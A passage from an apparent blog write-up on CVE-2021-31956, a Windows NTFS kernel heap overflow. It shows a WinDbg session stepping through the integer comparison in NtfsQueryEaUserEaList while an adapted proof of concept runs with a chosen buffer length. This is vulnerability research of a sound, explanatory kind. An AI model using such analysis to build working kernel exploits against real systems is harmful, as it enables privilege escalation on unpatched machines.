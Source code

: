 
![Integer Conversion](/images/blogpost_screenshot_integer_conversion.PNG)



I adapted the code with the PoC to use a `output_buf_len` of `0x143`, below I'll show you the states leading to the discussed comparisons.

```
// Get the `_EPROCESS` address of our process
0: kd> !process 0 0 CVE-2021-31956.exe
PROCESS ffff9b8e92ad3340
    SessionId: 1  Cid: 1980    Peb: f581868000  ParentCid: 0b44
    DirBase: 22d917000  ObjectTable: ffffd8892f128d40  HandleCount: 283305.
    Image: CVE-2021-31956.exe

// Set a breakpoint just before the interesting part happens
0: kd> ba e1 /p ffff9b8e92ad3340 ntfs+00000000`000dc2b7
0: kd> g
Breakpoint 1 hit
Ntfs!NtfsQueryEaUserEaList+0x193:
fffff803`0cb8c2b7 4903d6          add     rdx,r14

// snip

/// 1. Iteration (first EA)

// subtract padding from out_buf_len, first time no padding
0: kd> t
Ntfs!NtfsQueryEaUserEaList+0x196:
fffff803`0cb8c2ba 412bc7          sub     eax,r15d
1: kd> r eax, r15d
eax=143 r15d=0


// if (block_size u> out_buf_len - padding) // r14d=block_size; eax=(out_buf_len-padding)
1: kd> t
Ntfs!NtfsQueryEaUserEaList+0x1a9:
fffff803`0cb8c2cd 443bf0          cmp     r14d,eax

1: kd> r r14d, eax
r14d=99 eax=143
```
